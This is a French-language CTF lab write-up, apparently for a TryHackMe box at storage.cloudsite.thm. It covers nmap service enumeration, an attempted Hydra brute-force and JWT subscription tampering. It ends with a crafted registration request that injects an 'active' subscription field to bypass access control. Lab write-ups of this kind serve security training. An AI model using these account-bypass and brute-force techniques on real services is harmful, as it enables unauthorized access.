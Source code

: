 ```
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.40 seconds
```
- 22 SSH
- 80 HTTP
- 4369 EPMD (Erlang)
- 25672 node Rabbit

# Recherches et exploitation
On peux créer un compte, je test mais j'ai ce message :
```
Sorry, this service is only for internal users working within the organization and our clients. If you are one of our clients, please ask the administrator to activate your subscription.
```
On peux aussi envoyer un message via le formulaire de contact mais c'est inactif.

Sur le site on vois ces 2 emails :
``` 
info@smarteyeapps.com
sales@smarteyeapps.com
```
Je test de créer un compte avec le domaine **@smarteyeapps.com** mais maintenant, j'ai une erreur => username / password invalide

Il y a 2 potentiels users : 
```
williamson@smarteyeapp.com
kristina@smarteyeapps.com
```
Je test un bruteforce avec Hydra mais ce n'est pas concluant.

Il y a un token JWT, le payload est ainsi :
```
{
  "email": "test@test.com",
  "subscription": "inactive",
  "iat": 1741965465,
  "exp": 1741969065
}
```
Je test de le passer en **active** et de renvoyé la requête mais cela ne fonctionne pas.
Je vais test de créer un compte qui est déjà actif
```
POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/register.html
Content-Type: application/json
Content-Length: 74
Origin: http://storage.cloudsite.thm
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAc21hcnRleWVhcHBzLmNvbSIsInN1YnNjcmlwdGlvbiI6ImluYWN0aXZlIiwiaWF0IjoxNzQxOTY5MTc5LCJleHAiOjE3NDE5NzI3Nzl9.81_IoL2b3q6eaM2zO_sFSTozAeFaJFPvZRpNVziZswc
Priority: u=0

{"email":"blabla@test.com","password":"test",
"subscription": "active"
}
```